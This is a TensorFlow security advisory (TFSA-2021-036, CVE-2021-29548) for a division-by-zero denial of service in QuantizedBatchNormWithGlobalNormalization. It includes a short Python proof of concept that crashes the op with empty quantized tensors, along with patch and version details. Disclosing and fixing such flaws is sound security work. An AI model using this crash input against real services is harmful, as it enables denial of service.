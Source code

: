 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2021-036.md
## TFSA-2021-036: Division by 0 in `QuantizedBatchNormWithGlobalNormalization`

### CVE Number
CVE-2021-29548

### Impact
An attacker can cause a runtime division by zero error and denial of service in
`tf.raw_ops.QuantizedBatchNormWithGlobalNormalization`:

```python
import tensorflow as tf

t = tf.constant([], shape=[0, 0, 0, 0], dtype=tf.quint8)
t_min = tf.constant(-10.0, dtype=tf.float32)
t_max = tf.constant(-10.0, dtype=tf.float32)
m = tf.constant([], shape=[0], dtype=tf.quint8)
m_min = tf.constant(-10.0, dtype=tf.float32)
m_max = tf.constant(-10.0, dtype=tf.float32)
v = tf.constant([], shape=[0], dtype=tf.quint8)
v_min = tf.constant(-10.0, dtype=tf.float32)
v_max = tf.constant(-10.0, dtype=tf.float32)
beta = tf.constant([], shape=[0], dtype=tf.quint8)
beta_min = tf.constant(-10.0, dtype=tf.float32)
beta_max = tf.constant(-10.0, dtype=tf.float32)
gamma = tf.constant([], shape=[0], dtype=tf.quint8)
gamma_min = tf.constant(-10.0, dtype=tf.float32)
gamma_max = tf.constant(-10.0, dtype=tf.float32)

tf.raw_ops.QuantizedBatchNormWithGlobalNormalization(
  t=t, t_min=t_min, t_max=t_max, m=m, m_min=m_min, m_max=m_max,
  v=v, v_min=v_min, v_max=v_max, beta=beta, beta_min=beta_min,
  beta_max=beta_max, gamma=gamma, gamma_min=gamma_min,
  gamma_max=gamma_max, out_type=tf.qint32,
  variance_epsilon=0.1, scale_after_normalization=True)
```

This is because the
[implementation](https://github.com/tensorflow/tensorflow/blob/55a97caa9e99c7f37a0bbbeb414dc55553d3ae7f/tensorflow/core/kernels/quantized_batch_norm_op.cc)
does not validate all constraints specified in the [op's
contract](https://www.tensorflow.org/api_docs/python/tf/raw_ops/QuantizedBatchNormWithGlobalNormalization).

### Patches
We have patched the issue in GitHub commit
[d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b](https://github.com/tensorflow/tensorflow/commit/d6ed5bcfe1dcab9e85a4d39931bd18d99018e75b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.

